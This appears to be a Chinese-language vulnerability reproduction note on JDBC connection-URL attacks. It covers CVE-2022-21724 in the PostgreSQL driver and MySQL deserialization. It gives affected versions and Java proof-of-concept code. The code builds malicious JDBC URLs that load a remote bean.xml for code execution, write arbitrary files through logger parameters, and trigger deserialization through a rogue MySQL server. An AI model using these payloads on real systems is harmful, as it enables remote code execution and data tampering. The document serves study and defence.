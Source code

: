 # 漏洞简介
JDBC Java 数据库连接，(Java Database Connectivity)是 Java 语言中用来规范客户端如何访问数据库的应用程序接口，具体讲就是通过 Java 连接广泛数据库，并对表中数据执行增、删、改、查等操作的技术。 当程序中 JDBC 连接 URL 可控时，可能会造成安全问题。比较具有代表性的就是 JDBC 反序列化漏洞，是在于 mysql 数据库连接时产生的。

## CVE-2022-21724 
CVE-2022-21724是在 PostgreSQL 数据库的 jdbc 驱动程序中发现一个安全漏洞，当攻击者控制 jdbc url 或者属性时，使用 PostgreSQL 数据库的系统将受到攻击。 pgjdbc 根据通过 authenticationPluginClassName、sslhostnameverifier、socketFactory 、sslfactory、sslpasswordcallback 连接属性提供类名实例化插件实例。但是，驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致通过任意类加载远程代码执行。

影响范围：
* 9.4.1208 <=PgJDBC <42.2.25
* 42.3.0 <=PgJDBC < 42.3.2

## mysql 

来自[《New Exploit Technique In Java Deserialization Attack》](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf).
该漏洞需要能够控制客户端的JDBC连接串，在连接阶段即可触发，无需继续执行SQL语句。

# 漏洞复现

## CVE-2022-21724
创建 maven 项目，添加依赖:
```xml
<dependency>
            <groupId>org.postgresql</groupId>
            <artifactId>postgresql</artifactId>
            <version>42.3.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.springframework/spring-context-support -->
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context-support</artifactId>
            <version>5.3.23</version>
        </dependency>
```

编写测试代码:
```java
public class CVE202221724 {
    public static void main(String[] args) throws SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:8888/bean.xml";

        //socketFactory/socketFactoryArg 导致RCE
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:55531/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
        Connection connection = DriverManager.getConnection(jdbcUrl);

        // sslfactory/sslfactoryarg 导致RCE:建立连接之后需要server返回一个S开头的字符串才可以触发org.postgresql.ssl.MakeSSL#convert
        String jdbcUrl1 = "jdbc:postgresql://127.0.0.1:55532/test/?user=postgres&sslfactory="+socketFactoryClass+ "&sslfactoryarg="+socketFactoryArg;

        Connection connection1 = DriverManager.getConnection(jdbcUrl1);

        //  loggerLevel/loggerFile 参数 任意文件写入

        String loggerLevel = "debug";
        String loggerFile = "test.txt";
        String shellContent="you are hacked!!";
        String jdbcUrl2 = "jdbc:postgresql://127.0.0.1:55533/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        Connection connection2 = DriverManager.getConnection(jdbcUrl2);
    }
}
```

## mysql　

需要搭建恶意的mysql_server,参考:[mysql_server.py](https://xz.aliyun.com/t/8159)

测试代码如下:

```java
public class MySQLClientVul {
    public static void main(String[] args) throws Exception{
        String driver = "com.mysql.cj.jdbc.Driver";
        String DB_URL = "jdbc:mysql://127.0.0.1:3309/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";//8.x使用
        //String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true";//5.x使用
        Class.forName(driver);
        Connection conn = DriverManager.getConnection(DB_URL);
    }
}
```

# 漏洞分析

## CVE-2022-21724

![img.png](imgs/2.png)

整体流程如下：

![img.png](imgs/3.png)



